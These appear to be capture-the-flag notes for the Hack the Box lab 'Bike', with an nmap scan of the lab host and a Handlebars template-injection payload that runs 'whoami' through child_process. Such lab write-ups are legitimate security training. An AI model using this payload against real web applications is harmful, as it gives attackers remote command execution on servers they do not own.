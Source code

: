 Hack the Box
starting point

Bike

10.129.97.64

┌──(kali㉿kali)-[~/…/CTF/HTB/starting_point/bike]
└─$ nmap -sV -sC --min-rate 1000 --max-retries 2 -oN nmap/bike 10.129.97.64
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-04 23:57 EDT
Nmap scan report for 10.129.97.64
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (conn-refused)cd 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.65 seconds

{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return require('child_process').exec('whoami');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}

